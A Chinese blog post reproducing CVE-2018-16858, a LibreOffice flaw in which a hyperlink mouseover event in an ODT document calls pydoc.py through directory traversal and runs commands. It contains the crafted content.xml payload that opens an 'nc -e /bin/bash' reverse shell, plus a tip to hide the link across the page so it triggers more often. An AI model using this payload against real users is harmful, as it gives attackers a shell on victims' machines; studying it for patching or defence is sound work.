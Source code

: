 ```yaml
---
title: libreoffice命令执行复现
tags:
  - CVE
  - libreoffice
categories:
  - 漏洞复现
copyright: true
abbrlink: cdf8e41e
date: 2019-07-13 16:19:25
---
```


![](https://s2.ax1x.com/2019/07/13/Z4drIs.jpg)
<!--more-->
### Start ###

打开Libreoffice writer新建个'word':

插入(Insert) => 超链接(Hyperlink) => 设置(图标)，添加个鼠标事件，保存为odt文档:

![](https://s2.ax1x.com/2019/07/13/Z4NnxS.png)

使用解压工具解压/查看odt文件，把`content.xml`拖出来,看下里面有什么内容。

![](https://s2.ax1x.com/2019/07/13/Z4NKKg.png)

可以看到这是类似一个加载本地的一个脚本然后使用python运行的。

```
<script:event-listener script:language="ooo:script" script:event-name="dom:mouseover" xlink:href="vnd.sun.star.script:pythonSamples|TableSample.py$createTable?language=Python&amp;location=share" xlink:type="simple"/>
```

作者文章中写到：Libreoffice自带有Python和预装部分脚本，还可以通过目录遍历访问(调用)其他脚本。

在`LibreOffice\program\python-core-3.5.5\lib\`中的`pydoc.py`通过参数cmd传递给`os.system()`执行，而且还没有做过滤。

![](https://s2.ax1x.com/2019/07/13/Z4Nm28.png)

So，通过修改`content.xml`内容重新压缩回odt文件，当打开odt文件鼠标碰到超链接是，就会触发反弹shell。

```
<script:event-listener script:language="ooo:script" script:event-name="dom:mouseover" xlink:href="vnd.sun.star.script:../../../program/python-core-3.5.5/lib/pydoc.py$tempfilepager(1, nc -e /bin/bash 127.0.0.1 12345)?language=Python&amp;location=share" xlink:type="simple"/>
```

![](https://s2.ax1x.com/2019/07/13/Z4Ne8f.png)

### Video ###

<div style="position: relative; width: 100%; height: 0; padding-bottom: 75%;"><iframe src="//player.bilibili.com/player.html?aid=63298083&bvid=BV1c4411Q7KM&cid=109925123&page=1"  scrolling="no" border="0" frameborder="no" framespacing="0" allowfullscreen="true" style="position: absolute; width: 100%; height: 100%; left: 0; top: 0;"></iframe></div>

### END ###

为了增加触发率，可以设置超链接为白色并遍布整个页面

新版中，python鼠标事件好像已被移除

**Reference**

https://insert-script.blogspot.com/2019/02/libreoffice-cve-2018-16858-remote-code.html

https://testofpen.wordpress.com/2019/05/13/cve-2018-16858/